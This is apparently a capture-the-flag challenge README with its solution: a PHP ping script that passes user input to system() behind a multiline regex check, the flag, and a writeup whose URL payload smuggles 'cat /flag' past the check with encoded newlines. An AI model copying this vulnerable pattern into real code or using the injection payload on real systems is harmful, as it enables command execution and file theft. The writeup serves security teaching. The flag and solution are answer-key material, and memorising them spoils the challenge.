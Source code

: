 # My First PHP Script

## Challenge Text
```
Kevin has created a ping script so that he doesn't have to fire up a terminal to check for internet connectivity. He uses system() to call /bin/ping, but he validates the user input to make sure it's a valid IP first so it can't be that bad right?

Connect: `[IP] 8080`

The flag is located at /flag
```

## Setup
1. build docker with `cd service && ./build.sh`
2. run docker with `cd service && ./run.sh`

## Flag
`HNF{D3V1L_1N_TH3_D3T41L5}`

## Hint
The important bit:
```
if(preg_match('/^\d{1,3}\.\d{1,3}\.\d{1,3}\.\d{1,3}\z/m',$_GET['ip'])){
system("ping -c 2 -W 1 " . $_GET['ip']);
}

```
## Writeup
go to /index.php?ip=%0acat /flag%0a127.0.0.1
/m flag means multiline search so it will match 127.0.0.1 and let the command through